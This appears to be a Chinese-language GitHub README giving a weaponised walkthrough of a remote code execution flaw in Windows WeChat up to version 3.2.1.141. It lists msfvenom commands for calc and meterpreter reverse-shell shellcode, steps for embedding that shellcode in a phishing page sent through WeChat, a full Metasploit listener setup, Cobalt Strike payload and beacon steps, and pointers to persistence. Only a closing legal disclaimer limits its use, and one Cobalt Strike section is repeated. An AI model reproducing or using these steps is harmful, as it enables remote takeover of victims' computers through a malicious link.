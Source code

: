 



# WeChat 0day

## 漏洞介绍

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

## 影响范围

Windows版微信: 小于等于3.2.1.141版本

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.130

Windows 10 x64

微信 3.2.1.134

其他版本不确定是否可以，请自测。

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*(这里说明一下，如下图，微信进程wechatweb.exe默认关闭沙盒，Chrome版本是53.0.2875.166，运行在x86架构上，故生成payload时须指定为x86架构)*

![image-20210419220004697]($imgs/image-20210419220004697.png)

### 1.2 制作html钓鱼文件

将生成的代码放入WeChat.js中shellcode[]中。

![image-20210419221432458]($imgs/image-20210419221432458.png)

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功执行计算器命令。

http://192.168.43.232/WeChat.html

![image-20210419220935481]($imgs/image-20210419220935481.png)



## 2. 利用Metasploit反弹shell

### 2.1 shellcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入WeChat.js中shellcode[]里。

![image-20210419224510744]($imgs/image-20210419224510744.png)

### 2.2 msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

### 2.3 反弹shell

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。

http://192.168.43.232/WeChat.html

<img src="$imgs/image-20210419224819886.png" alt="image-20210419224819886" style="zoom:50%;" />

![image-20210419224724224]($imgs/image-20210419224724224.png)

## 3. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

### <img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom: 50%;" />

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

![image-20210419225513410]($imgs/image-20210419225513410.png)

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里不勾选x64，因为微信进程试运行在x86架构上的。**

<img src="$imgs/image-20210419230142555.png" alt="image-20210419230142555" style="zoom:50%;" />

![image-20210419230351333]($imgs/image-20210419230351333.png)

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419230559917]($imgs/image-20210419230559917.png)

**2.2.3 将引号里的代码复制到WeChat.js文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419230813043]($imgs/image-20210419230813043.png)



**2.2.4 将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。**

**http://192.168.43.232/WeChat.html**

![image-20210419231021319]($imgs/image-20210419231021319.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419231230251]($imgs/image-20210419231230251.png)

## 写在最后

都说这个漏洞比较鸡肋，必须保证微信内置浏览器一直打开状态才不会掉线，如果把它关闭就会直接掉线。不过看到大佬写得一篇博客：“关于微信内置浏览器 达到持久控制”，可以解决上述问题：

1*. 加载自定义 malleable C2 配置文件 从而达到主机一上线跳默认为 1 秒，就可自动在目标打开浏览器短暂的时间里尽快转移进程*

*2. 加载一个 Cobalt Strike automigrate 自动迁移进程的插件从而达到目标上线后会话自动迁移到其他进程从而我们就可以脱离微信浏览器的束缚。*

由于文章可能比较敏感，该篇博客已被删除，幸好我留了一手，保存了网页，具体的操作可以参考我保存的网页，下载到本地用浏览器打开[关于微信内置浏览器 达到持久控制 _ Liqun.html](https://github.com/H4ckTh3W0r1d/WeChat-0day/blob/main/关于微信内置浏览器 达到持久控制/关于微信内置浏览器 达到持久控制 _ Liqun.html)，即可看到，我试了一下，没成功，感兴趣的朋友可以尝试一下。



**至此WeChat-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**

